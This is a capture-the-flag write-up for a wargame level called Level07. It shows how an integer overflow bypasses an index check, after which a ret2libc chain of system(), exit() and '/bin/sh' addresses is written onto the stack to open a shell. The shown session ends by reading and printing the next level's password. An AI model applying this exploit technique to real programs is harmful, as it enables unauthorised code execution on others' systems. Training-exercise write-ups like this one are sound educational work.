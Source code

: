 # Level07

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a buffer overflow and an integer overflow to overwrite the EIP. Thanks to our analysis we know that the buffer offset is **456** bytes and since this buffer is storing integers, it is equivalent to the **114** integers.

However, there is a protection that prevents us to write on indices that are either a multiple of **3** or higher than **127**. Since **114** is a multiple of **3** we need to overflow in order to access this index like so:

```C
  unsigned int index = (UINT_MAX + 1) / 4 + 114
```

> Since `UINT_MAX` equals **4294967295**, `index` value is **1073741938**.

Then all we have to do is to retrieve some addresses that we'll convert to decimal:

- `system()` function (`0xf7e6aed0` => **4159090384**)
- `exit()` function (`0xf7e5eb70` => **4159040368**)
- `/bin/sh` string (`0xf7f897ec` => **4160264172**)

All we have to do now is to build a ret2libc attack using indices **1073741938** (**114**), **115** and **116**, holding respectively `system()`, `exit()` and `/bin/sh` using the `store` command. Once we do that, if we invoke `quit` it leaves the infinite loop and go to the next instruction, our exploit and gives us a shell!

```shell
  $> ./level07 
  ----------------------------------------------------
    Welcome to wil crappy number storage service!   
  ----------------------------------------------------
  Commands:                                          
      store - store a number into the data storage    
      read  - read a number from the data storage     
      quit  - exit the program                        
  ----------------------------------------------------
    wil has reserved some storage :>                 
  ----------------------------------------------------

  Input command: store
  Number: 4159090384
  Index: 1073741938
  Completed store command successfully
  Input command: store
  Number: 4159040368
  Index: 115
  Completed store command successfully
  Input command: store
  Number: 4160264172
  Index: 116
  Completed store command successfully
  Input command: quit
  $ cat /home/users/level08/.pass
  7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

So next user credentials pair is `level08:7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`.

Check [here](../source.c) for reproduction source-code of this binary.